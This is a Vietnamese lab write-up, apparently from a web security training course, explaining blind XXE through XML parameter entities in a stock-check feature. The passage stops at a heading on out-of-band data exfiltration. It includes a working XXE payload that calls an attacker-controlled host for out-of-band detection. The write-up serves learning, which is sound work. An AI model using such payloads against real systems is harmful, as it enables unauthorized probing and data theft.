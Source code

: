 ### LAB03 

Lab này sử dụng XML trong phần check stock. 

![image](https://hackmd.io/_uploads/B1HVIbUPgg.png)

Nhưng nó sẽ ko thể thực hiện tấn công bằng các payload bình thường, mà nó là blind XXE. 

![image](https://hackmd.io/_uploads/S1LpDWLDee.png)

Từ đây, nó trả về các DNS. 

![image](https://hackmd.io/_uploads/r1S1OWLDle.png)

Nhưng mà lâu lâu thì các thực thể bình thường sẽ bị chặn, trong trường hợp này thì mình dùng **tham số thực thể XML** để thay thế. 

Các tham số thực thể XML chỉ có thể được tham chiếu từ bên trong phần DTD. Để sử dụng điều này, mình cần: 
- Đầu tiên, khai báo một tham số thực thể trong XML bao gồm ký tự phần trăm `%` đặt trước tên của thực thể. 

```XML 
<!ENTITY % myparameterentity "my parameter entity value" >
``` 
- Thứ hai, các tham số thực thể được tham chiếu bằng cách sử dụng ký tự phần trăm `%` thay vì ký tự `&` thông thường. 

```XML 
%myparameterentity;
``` 
Điều này có thể dẫn đến test blind XXE dùng OAST thông qua tham số thực thể XML như sau: 

```XML 
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>
``` 

### LAB04 

Lab này sử dụng XML trong phần check stock. 

![image](https://hackmd.io/_uploads/r18fRMPwel.png)

Mình cũng thử test blind XXE bằng tham số thực thể như bình xem như thế nào ? 

![image](https://hackmd.io/_uploads/SkQn1XDweg.png)

Thì mình bị chặn khi dùng các thực thể bên ngoài. Nên mình sẽ dùng tham số thực thể như sau: 

![image](https://hackmd.io/_uploads/S17UxQDvll.png)

Quan sát thì sẽ có các DNS trả về. 

![image](https://hackmd.io/_uploads/B1ZYgXwwxe.png)

### Khai thác Blind XXE để rò rỉ dữ liệu out-of-band 
